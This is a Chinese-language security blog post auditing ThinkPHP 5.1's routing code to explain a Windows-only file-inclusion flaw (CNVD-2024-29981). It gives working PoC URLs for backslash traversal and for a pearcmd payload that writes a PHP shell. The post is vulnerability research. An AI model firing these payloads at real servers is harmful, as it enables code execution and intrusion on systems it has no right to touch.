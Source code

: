 ```yaml
---
layout: post
title: "Thinkphp5.1文件包含-CNVD-2024-29981"
author: "XinYiSleep"
---
```

```info
time:   4.24
测试版本:   thinkphp 5.1.41
php:    7.3.4<br>
影响范围:   thinkphp5.1.0--thinkphp5.1.* （windows）: linux无法利用
漏洞利用poc:    index.php?s=..\..\你要包含的路径/index/index
pear进行命令执行poc:  /index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
调用堆栈：
![image](https://xinyisleep.github.io/img/2024/thinkphp5/1743331415510.jpg)
<h1 id="tvbAq">一.Thinkphp文件包含:</h1>
**<font style="color:#000000;">在Thinkphp5中路由可以使用一下两种方式都可以访问到执行的方法中如： </font>**

```color5
[http://127.0.0.1/index.php/index/index/hello](http://127.0.0.1/index.php/index/index/hellohttp://127.0.0.1/index.php?s=index/index/hello//)
[http://127.0.0.1/index.php?s=index/index/hello](http://127.0.0.1/index.php/index/index/hellohttp://127.0.0.1/index.php?s=index/index/hello//)
//简单一点来说其实就是对应的 模块/控制器/方法
```
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723994715127-eefda7aa-8d47-4eb2-b9d3-fe4e7b4847ae.png)
<h2 id="QbPXO">1.1: Thinkphp5.1.*审计过程</h2>
首先需要触发路由
http://127.0.0.1/index.php?s=index/index/hello
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723995478440-c7fd9c75-7834-451d-aa81-a3bcbaa99ac7.png)  
进入run方法，
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998373872-13fe0a19-ea71-48af-8bff-20fd6d8d64c3.png)  
**走到405行routeCheck方法，根据注释也可以看出来是进行路由检测接着往下看，**
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998590159-deac7b9b-3e5c-4206-aa2a-5640b333aea8.png)  
600行path方法，
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723996015405-6d303e45-3591-48c3-97a7-e185235cf94d.png)
上面执行到了pathinfo,名字可以看出来就是路径信息的意思，下面是具体代码。
```php
public function pathinfo()
{
    if (is_null($this->pathinfo)) {
        if (isset($_GET[$this->config['var_pathinfo']])) {
            // 判断URL里面是否有兼容模式参数
            $pathinfo = $_GET[$this->config['var_pathinfo']];
            unset($_GET[$this->config['var_pathinfo']]);
            unset($this->get[$this->config['var_pathinfo']]);
        } elseif ($this->isCli()) {
            // CLI模式下 index.php module/controller/action/params/...
            $pathinfo = isset($_SERVER['argv'][1]) ? $_SERVER['argv'][1] : '';
        } elseif ('cli-server' == PHP_SAPI) {
            $pathinfo = strpos($this->server('REQUEST_URI'), '?') ? strstr($this->server('REQUEST_URI'), '?', true) : $this->server('REQUEST_URI');
        } elseif ($this->server('PATH_INFO')) {
            $pathinfo = $this->server('PATH_INFO');
        }

        // 分析PATHINFO信息
        if (!isset($pathinfo)) {
            foreach ($this->config['pathinfo_fetch'] as $type) {
                if ($this->server($type)) {
                    $pathinfo = (0 === strpos($this->server($type), $this->server('SCRIPT_NAME'))) ?
                    substr($this->server($type), strlen($this->server('SCRIPT_NAME'))) : $this->server($type);
                    break;
                }
            }
        }

        if (!empty($pathinfo)) {
            unset($this->get[$pathinfo], $this->request[$pathinfo]);
        }

        $this->pathinfo = empty($pathinfo) || '/' == $pathinfo ? '' : ltrim($pathinfo, '/');
    }

    return $this->pathinfo;
}


```
```info
关键点看下面的代码
if (isset($_GET[$this->config['var_pathinfo']])) {

                $pathinfo = $_GET[$this->config['var_pathinfo']];

                unset($_GET[$this->config['var_pathinfo']]);

                unset($this->get[$this->config['var_pathinfo']]);

  其中$this->config['var_pathinfo']是s参数也就是说获取了s的参数，并且销毁了GET传入的

s,和当前类的$this->get[s]的内容返回值是$pathinfo就是我们s传的内容。

  好了再回到path，会走到if里面其中也就是匹配我们传的参数有没有.html,意义不大。

$this->path = preg_replace('/\.(' . ltrim($suffix, '.') . ')$/i', '', $pathinfo);
```
上面就是获取url参数，**routeCheck并没有结束**
```info
606行 $dispatch = $this->route->check($path, $must); 
这个没什么太多必要进去看，写的又臭又烂，关键点就是执行think\route\dispatch\url类
在就是把/替换成|。
下面是执行过程截图。
```
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998207885-c9160d57-9b45-4411-b3e5-1aa30407fca3.png)

![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998245299-af01a603-fa78-42a0-ab33-9cb038d6b38c.png)

![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998468018-32332b08-1923-4ec2-be8d-ee3f31605bf6.png)
然后就直接return了，在看看init方法做了什么。
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723997287211-3e77a580-3125-4b71-8666-d8de961677db.png)
**parseUrl方法是把路由进行分割成数组**，
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723999765175-f1a4ff3a-826d-4936-b977-75d9613b5a33.png)
```php
public function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];

    if (false !== strpos($url, '?')) {
        // [模块/控制器/操作?]参数1=值1&参数2=值2...
        $info = parse_url($url);
        $path = explode('/', $info['path']);
        parse_str($info['query'], $var);
    } elseif (strpos($url, '/')) {
        // [模块/控制器/操作]
        $path = explode('/', $url);
    } elseif (false !== strpos($url, '=')) {
        // 参数1=值1&参数2=值2...
        $path = [];
        parse_str($url, $var);
    } else {
        $path = [$url];
    }

    return [$path, $var];
```

```danger
关键代码，也就是之前|在变回去了。  
$url = str_replace('|', '/', $url);
下面就是分割成一个数组，这里是重点。
elseif (strpos($url, '/')) {
            // 模块
            $path = explode('/', $url);

```
最后给到$path并且在54行$module在获取数组第一个，后面就直接return了。
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723999927569-69a90ee3-e2bd-4367-8829-2eab5e6775e0.png)
最后我们返回去看25行可以看到返回的时候new了一个类，并且执行了Module类的init方法跟进去。
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1724000360984-022697dc-5efe-44f2-a2cc-2dd06a628479.png)  
**至此到现在$this->dispatch都是我们能控制的，但是可以看到再次把/进行分割成数组了，所以/算是pass了，然后我们往下看，$result[0]也就是数组第一个给到$module。**
```php
if ($this->rule->getConfig('app_multi_module')) {
  // 多模块部署
  $module    = strip_tags(strtolower($result[0] ?: $this->rule->getConfig('default_module')));
  $bind      = $this->rule->getRouter()->getBind();
  $available = false;

  if ($bind && preg_match('/^[a-z]/is', $bind)) {
    // 绑定模块
    list($bindModule) = explode('/', $bind);
    if (empty($result[0])) {
      $module = $bindModule;
    }
    $available = true;
  } elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
```danger
关键点也是重点，is_dir再熟悉不过了$this->app->getAppPath() 具体输出一下就可以路径了看到了
D://绝对路径/application/，主要看$module上面提到了这个是我们可控制的呀，但是限制了/。
} elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
**$available变量为false,先让他为true，看到50行的时候是可以让$available变量为true,但是存在一个if，第一个条件是不为数组这个可以直接过了，因为在38行的时候他已经不是数组了，第2个条件是获取目录再加上$module变量其中$module变量是可以控制的，也就是说判断是否是一个真实存在的路径$this->app->getAppPath() 路径地址是 D://绝对路径/application/$module,那么大致思路就清晰了，默认情况下application存在 index extra，上面说到/已经用不了了因为他进行了2次分割成了数组，但是可以通过..\跳目录，这样..\就在一个value中不会进行分割，这也是为什么linux系统无法利用的原因，可以看下图上面也有分析到。**
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168694156-3769858f-848c-4138-8bab-9fa847589c62.png)  
例如  ..\..\aa/bb/cc 分割成数组，但是..\并没有进行分割，在执行到parseUrl方法54行array_shift($path) 获取第一个数组也就是..\..\aa,60行的时候获取到了bb，所以这块就绕过了，然后我们思路再次回到 Module类，49行使用..\就可以走到true, 后面的57行if就可以就下去在走到60行的app类里面的init方法。
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1724001531059-db0a5f82-039c-4846-af6b-31ef50837f70.png)
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168716813-87212a0d-31ec-4c43-95d2-b50dacd15683.png)  
可以看到323行遍历循环了一个参数$files，$files是从$module过来的，$module是我们的..\..\aa,321行获取了目录下面所有文件放到数组里面进行循环，在获取文件扩展名进行强比较,$this->configExt是php,所以在根目录下面创建目录，目录里面创建一个文件1.php 内容 /index.php?s=..\..\..\..\..\..\..\admin/user/name  其中admin是目录，user和name随便写,然后再去看load方法
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168740965-61e021e5-3eb5-4369-a269-832a31e28e89.png)  
也就是看文件是否存在，再去loadFile方法，
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168767080-c7cf4097-c132-4355-8159-74d24e354cf5.png)  
<font style="color:#DF2A3F;">查看扩展名是否是php，然后直接包含,为什么linux不能利用是因为linux不支持..\</font>
****
<h2 id="GVWoV">1.2: 漏洞利用</h2>
**<font style="color:#000000;">Version: thinkphp5.1.35</font>**
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640209013-776b02da-a38e-4038-8222-bc3994396048.png)
```java
thinkphp目录 D:\phpStudy\WWW\thinkphp5\public，在D盘根目录创建一个文件夹，下面存放1.php，
内容phpinfo();
POC: index.php?s=..\..\..\..\thinkphp5.1/xinyi/xinyi
```
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640501024-7baab04c-2f7c-434d-92dd-b8215011443d.png)
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640616406-89b49f8b-1ac2-46ec-ada6-17925fb07118.png)
****
<h2 id="KN9vm">1.3: 命令执行(pear写shell)</h2>
```java
POC:
/index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640889745-ba75f54b-d109-4bf7-b334-1870545e8d17.png)

